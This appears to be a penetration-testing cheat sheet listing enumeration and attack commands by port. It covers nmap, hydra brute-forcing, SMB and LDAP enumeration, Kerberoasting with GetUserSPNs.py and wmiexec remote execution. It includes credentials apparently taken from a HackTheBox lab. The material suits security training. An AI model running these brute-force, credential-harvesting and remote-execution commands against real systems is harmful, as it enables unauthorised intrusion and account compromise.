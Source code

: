 # External-Enumeration

##  NMAP

#### Silent mode
```
nmap -T4 -sS -sV -vv -Pn -p<PORT> <IP>
```
#### Agressive mode
```
nmap -T4 -sS -A -p- <IP>
```
#### UDP Scan
```
nmap -T4 -sUV <IP>
```
#### List the nmap script
```
ls -l /usr/share/nmap/scripts/smb*
```

## Fuzzing

#### Dirb
```
dirb http://10.0.0.1/abc/ /usr/share/wordlists/dirb/big.txt  
```
#### Gobuster
```
gobuster -u http://10.0.0.1/ -w /usr/share/wordlists/dirb/common.txt -e -t 20
gobuster dir -u http://10.0.0.1/ -w /usr/share/wordlists/dirb/big.txt -t 30 -e -k -x .html,.php,.asp,.aspx,.htm,.xml,.json,.jsp,.pl
```


## Vulnerability scanner
```
nikto -host=http://example.com
```

## Port 21
#### Vuln detection using nmap
```
nmap -p 21 -sV -sC --script="ftp-vuln-*, ftp-anon" 10.0.0.1-254
```
#### Hydra - Bruteforcing
```
hydra -s 21 -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ftp
```


## Port 22
#### Hydra - Bruteforcing
```
hydra -s 22 -v -t 4 -l root -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ssh
```


## Port 25

## Port 80
```
wpscan --url http://10.0.0.1/ --passwords /usr/share/wordlists/rockyou.txt --usernames admin --api-token {toekn-api}
```

## Port 110
## Port 111
```
rpcinfo -p 10.0.0.1
rpcclient -U "" 10.0.0.1
    srvinfo
    enumdomusers
    getdompwinfo
    querydominfo
    netshareenum
    netshareenumall
```


## Port 139, 445
#### Basic enumeration
```
enum4linux -a 10.0.0.1
```

#### List nmap scripts - Detection vuln port 445 139
```
nmap -p 445,139 -Pn --script=smb-vuln-*.nse 10.0.0.1
nmap -p 445,139 -Pn --script smb-protocols.nse 10.0.0.1

nmap -v -p 139,445 --script=smb-os-discovery 10.0.0.1
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.0.0.1

nmap -v -p 139,445 --script=smb* 10.0.0.1
```

#### Connection attempt
```
smbclient -L \\10.0.0.1
smbclient -L 10.0.0.1 -U anonymous
smbclient -L 10.0.0.1 --options='client min protocol=NT1'
```

#### SMBmap List the rights on the folders / recursif mode
```
smbmap -H 10.0.0.1

// Reculsive enumeration
smbmap -H 10.0.0.1 -R

// Recursive enumeration on a specific folder
smbmap -H 10.0.0.1 -R 'Replication\active.htb'

// Authenticated enumeration
smbmap -H 10.0.0.1 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -R

// Download a file
smbmap -H 10.10.0.1 --download '.\Users\SVC_TGS\Desktop\user.txt'

// If error ‘[!] Authentication error on 10.0.0.1’ try with a fake user -u ‘123’
smbmap -H 10.0.0.1 -R -u ‘123’
```

#### Detection of the version using Wireshark
```
If the following error appear "protocol negotiation failed : NT_STATUS_CONNECTION_DISCONNECTED", it's probably due to the old smb version of the victim.
Solution: Intercept the trafic of the command ‘smbclient -L \\<IP> with wireshark and search the negotiation of the smb version.
```

#### Access through through the kali folder
```
smb://<ip>/<folder>
```
#### Mount a share folder
```
mount -t cifs //10.0.0.1/share /mnt/share
mount -t cifs -o "username=user,password=password" //10.0.0.1/share /mnt/share
```

#### Bruteforce
```
hydra -L users.txt -P passs.txt smb://10.0.0.1 -t 4
hydra -L username.txt -P password.txt 10.0.0.1 smb -V
```


## Port 143
## Port 389
```
ldapsearch -x -h 10.0.0.1 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" samaccountname | grep sAMAccountName

./GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.168.32


ldapsearch -x -h 10.0.0.1 -p 389 -D 'SVC_TGS' -w'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub"(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName


./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.0.0.1

./GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.0.0.1 -request

./wmiexec.py active.htb/administrator:Ticketmaster1968@10.0.0.1
```


## Port 587
## Port 1433
#### Basic connection using sqsh
```
sqsh -U sa -P password -S 10.0.0.1:1433 -D mydb
```
#### Obtain a pretty output
```
go -m pretty
```
#### Execute command trough sqsh
#### Activate xp_cmdshell


## Port 3389

#### Nmap - Scan vuln
```
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 10.0.0.1
```
#### Bruteforce 
```
hydra -L user.txt -P pass.txt 10.0.0.1 rdp
ncrack -vv --user administrator -P passwords.txt rdp://10.0.0.1,CL=1
```
#### Remote Desktop
rdesktop 10.0.0.1
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
